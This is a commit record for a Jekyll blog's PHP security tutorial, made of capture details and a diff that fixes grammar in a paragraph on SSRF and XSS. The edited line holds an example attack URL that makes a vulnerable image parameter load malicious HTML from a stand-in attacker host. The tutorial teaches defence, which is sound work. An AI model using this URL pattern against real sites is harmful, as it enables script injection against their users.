

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from php-sec.md, in a window 1280 px wide and 900 px high, scrolled down 11115 px, cut to the strip 261-900 px from the top of the window. Shown: the whole strip, without its empty margins (108-1165 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update php-sec.md

```diff
--- a/php-sec.md
+++ b/php-sec.md
@@ -222,6 +222,6 @@ There is a whole other classification of SSRF, which is called Blind SSRF. As th
 
 SSRF is not as easy to fix as the previous vulnerabilities we talked about; there's not a certain function to fix it. The best would be if the application wouldn't allow users to provide URLs, but if the application must work like that, then there are other ways to prevent that. You can try "whitelisting" stuff, which means adding certain URLs and locations that are allowed to be supplied and everything else is not. While we are at it, almost never do "blacklisting" (its meaning is opposite of whitelisting,  those things that you list are forbidden and everything else isn't) to try to fix any of these vulnerabilities, because almost always sooner or later a bypass will be found for that. An extra step of taking care is not accepting other protocols/schemas than the ones needed.
 
-If you've payed attention in this blog you maybe will guess which vulnerability is present in that picture above aside from SSRF? If you've guessed XSS, that's correct. In this case an attacker can just upload a <code>.html</code> file with his malicious client-side code and send it like this <code>http://example.com/?image=http://attacker.com/evil.html</code><br><br>
+If you've paid attention to this blog, you may be able to guess which vulnerability is present in that picture above, aside from SSRF. If you've guessed XSS, that's correct. In this case, an attacker can just upload <code>.html</code> file with his malicious client-side code and send it like this <code>http://example.com/?image=http://attacker.com/evil.html</code><br><br>
 
 ## Remote Code Execution(RCE) & Command Injection
```
